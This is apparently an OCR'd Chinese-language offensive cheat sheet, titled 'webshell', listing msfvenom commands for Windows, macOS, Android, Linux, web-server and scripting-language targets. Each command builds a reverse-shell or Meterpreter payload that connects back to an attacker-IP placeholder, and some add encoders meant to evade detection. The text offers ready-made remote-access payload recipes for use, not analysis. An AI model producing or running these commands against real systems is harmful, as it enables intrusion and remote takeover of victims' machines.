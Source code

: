 

## webshell

### msfvenom常用生成payload命令

```
msfvenom常用生成payload命令

windows:
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e x86/shikata_ga_nai -b '\x00\x0a\xff' -i 3 -f exe -o
payload.exe
mac:
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f macho -o payload.macho
android:
//需要签名
msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f apk -o payload.apk
powershell:
msfvenom -a x86 --platform Windows -p windows/powershell_reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -e cmd/powershell_base64 -i 3 -f raw -o payload.ps1
linux:
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f elf -o payload.elf
php:
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=
<Your Port to Connect On> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >>
shell.php
aspx:
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f aspx -o payload.aspx
jsp:
msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻
击机端口 -f raw -o payload.jsp
war:
msfvenom -p java/jsp_shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -
o payload.war
nodejs:
msfvenom -p nodejs/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.js
python:
msfvenom -p python/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -
f raw -o payload.py
perl:
msfvenom -p cmd/unix/reverse_perl LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.pl
ruby:
msfvenom -p ruby/shell_reverse_tcp LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.rb
lua:
msfvenom -p cmd/unix/reverse_lua LHOST=攻击机IP LPORT=攻击机端口 -f raw -o
payload.lua
windows shellcode:
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=
攻击机IP LPORT=攻击机端口 -f c
linux shellcode:
msfvenom -a x86 --platform Linux -p linux/x86/meterpreter/reverse_tcp LHOST=攻
击机IP LPORT=攻击机端口 -f c
mac shellcode:
msfvenom -a x86 --platform osx -p osx/x86/shell_reverse_tcp LHOST=攻击机IP
LPORT=攻击机端口 -f c
```